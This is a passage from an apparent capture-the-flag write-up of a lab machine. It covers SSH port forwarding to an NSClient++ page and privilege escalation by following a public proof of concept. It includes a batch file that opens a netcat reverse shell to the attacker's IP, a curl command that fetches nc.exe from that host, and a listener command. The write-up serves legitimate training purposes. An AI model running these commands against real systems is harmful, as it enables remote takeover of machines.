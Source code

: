 Here's a breakdown of the above command if you're new to using it. There's also some additional info [here](https://www.booleanworld.com/guide-ssh-port-forwarding-tunnelling/).

We are telling SSH to map our local (`-L`) port of `9000` to our local machine and forward it to port `8443` on our remote machine. We then supply the credentials of the remote machine - `nadine@10.10.10.184`. So when we open a web browser and go to 127.0.0.1:9000 we should be redirected to the NSClient page as if we were on it locally.

Once we load up the page, we can see the differences:

{{< figure src="__GHOST_URL__/content/images/2020/05/sermon_rfwd.gif" >}}

We can now use the password we found earlier (via the command or .ini file) to log in. It looks like we can now follow this PoC and escalate. First we need to create an `evil.bat` file as per the PoC. In this case I'll call my file `rf.bat`. Inside this bat is the follow:

```
@echo off
C:\Temp\nc.exe 10.10.14.202 4444 -e cmd.exe
```

This file simply tells the netcat binary (that we'll put there next) to reach back to us with a command prompt.

Now we need to download the nc.exe file to temp, the same way we copied over the `winPEAS.bat` above.

Command:
`curl http://10.10.14.202/nc.exe -o "C:\Temp\nc.exe"`

Now we setup a listen on our local machine.

Command:
`nc -lvnp 4444`

Now we need to add a script to the NSClient (Step 5 in the PoC). This will call our evil bat file.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-14.png" >}}

Now to add to schedule a task to call the script (Step 6).

Now I would have loved to finish this box however this step was pretty close to impossible on public boxes. I don't plan to come back and finish this machine given the bad taste it left.


